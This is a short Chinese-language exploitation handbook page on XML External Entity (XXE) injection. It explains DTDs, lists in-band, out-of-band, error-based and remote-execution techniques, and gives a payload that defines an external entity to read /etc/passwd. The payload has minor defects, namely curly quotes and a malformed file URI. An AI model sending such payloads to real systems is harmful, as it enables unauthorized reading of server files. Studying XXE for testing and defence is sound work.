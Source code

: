 # EXP手册-XXE Injecton(XML External Entity Injection)
## 基础知识
XXE(XML External Entity),即是XML外部实体注入攻击.漏洞是在对不安全的外部实体数据进行处理时引发的安全问题。   
关键在DTD的引用。   
```
\\实例代码
<?xml version="1.0"?>//这一行是 XML 文档定义
<!DOCTYPE message [
<!ELEMENT message (receiver ,sender ,header ,msg)>
<!ELEMENT receiver (#PCDATA)>
<!ELEMENT sender (#PCDATA)>
<!ELEMENT header (#PCDATA)>
<!ELEMENT msg (#PCDATA)>
```
DTD(The document type definition)，即是文档类型定义，可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构。DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。   
前提条件：允许外部实体引用。   
入门：  
- [一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)    
- [XML external entity (XXE) injection](https://portswigger.net/web-security/xxe)
![](https://raw.githubusercontent.com/ReAbout/web-exp/master/images/xxe-injection.svg?sanitize=true)
## XXE漏洞利用
按服务端语言有PHP、JAVA、JAVA(Android)一般解析函数都是默认不开启的、Python、libxml。
漏洞利用方法分：
- 回显读取文件   
- 不带回显读取文件-OOB(Out of Band）    
- 报错回显读取文件-XXE Base Error   
- 远程执行   
### 0x01回显读取文件
读取本地文件payload示例：   
```
<?xml version=”1.0″ encoding=”utf-8″?>

<!DOCTYPE XXE [
<!ELEMENT name ANY >
<!ENTITY XXE SYSTEM "file://etc/passwd" >]>

<root>
  <name>&XXE;</name>
</root>
```
### Reference

[Exploiting XXE with local DTD files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)   
